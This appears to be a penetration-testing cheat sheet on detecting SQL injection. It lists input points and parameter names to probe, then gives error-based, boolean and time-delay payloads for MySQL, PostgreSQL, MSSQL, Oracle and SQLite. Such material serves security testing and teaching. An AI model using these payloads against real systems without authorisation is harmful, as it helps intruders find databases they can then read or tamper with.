 - ## Injection Points
- ## List of Parametes
- ## Giving Inputs
     * Error Based
     * True False Based 
     * Timing Attacks
     * Merging Characters
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### Here is a list of parameters to check
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
